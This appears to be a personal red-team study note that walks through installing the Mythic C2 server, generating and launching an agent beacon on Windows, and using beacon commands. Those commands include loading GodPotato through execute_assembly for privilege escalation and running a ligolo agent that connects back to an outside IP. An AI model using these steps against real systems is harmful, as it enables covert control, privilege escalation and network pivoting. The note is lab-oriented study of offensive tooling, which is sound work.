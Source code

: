 
Mythic is a C2 server, used to deploy and control agents often used for AV evasion or persistence. 

## Installing Mythic

```bash
# Install docker
sudo apt update -y
sudo apt install docker -y
sudo apt install docker.io -y
sudo apt install docker-compose -y

# Git clone
git clone https://github.com/its-a-feature/Mythic
cd Mythic

# We need to make the binary, from the makefile in the Mythic directory.
sudo make
```

Now we can run Mythic for the first time
```bash
# Run Mythic for the first time
sudo -E ./mythic-cli start

# The config file is stored here if we want to modify it
vi Mythic/.env

# We need to install agents
# We'll start with Poseidon, used for Mac and Linux
sudo ./mythic-cli install github https://github.com/MythicAgents/Poseidon

# Install Apollo for use on Windows
sudo ./mythic-cli install github https://github.com/MythicAgents/Apollo

# We'll also need to install the http profile.
sudo ./mythic-cli install github https://github.com/MythicC2Profiles/http
```
The 'installed services' tab is important, we can see what all is installed.
![[notes/Atomic-Notes/4000-TOOLS/4100-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526215523.png]]
## Web Interface
This is where can manage a lot of things. It's accessed at
`https://127.0.0.1:7443` by default
We'll find our admin credentials in the .env file
```bash
cat Mythic/.env | grep -i 'user'
cat Mythic/.env | grep -i 'password'

# If we wanted to, we could modify these, then restart Mythic
sudo ./mythic-cli restart
```

We can click 'Create Your First Payload'
![[notes/Atomic-Notes/4000-TOOLS/4100-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526215029.png]]
We can leave most of this stuff unchanged, except maybe statically compile the payload.
Additionally, changing the callback details is necessary

![[notes/Atomic-Notes/4000-TOOLS/4100-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526215701.png]]
We should be able to use our IP here, and port 80 is the default port. Even though we're not using HTTP/S, the traffic itself will be encrypted.
![[notes/Atomic-Notes/4000-TOOLS/4100-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526215905.png]]
We can see our page on the 'payloads' page
![[notes/Atomic-Notes/4000-TOOLS/4100-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526220223.png]]

We can just download and execute it. My first ever C2 beacon callback.
![[notes/Atomic-Notes/4000-TOOLS/4100-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526224612.png]]


## Windows Beacon
Run it in a good directory (C:\Windows\Tasks), (C:\Users\Public). 

```powershell
Start-Process beacon.exe
```



# Useful Beacon Commands
## Register Assembly
We can put dotnet binaries into the agent. This is an opsec effective way of executing binares

N
```
register_assembly GodPotato-NET4.exe
execute_assembly -Assembly GodPotato-NET4.exe -Arguments "-cmd 'c:\users\public\taskmanager.exe'"
```

## Download/Upload
Self explanatory

## Run
Runs an executable. A command might look like
```
run -Executable C:\Windows\tasks\ligolo-windows-agent.exe -Arguments "-connect 10.10.16.157:443 -ignore-cert"
```
## References
https://redsiege.com/blog/2023/06/introduction-to-mythic-c2/

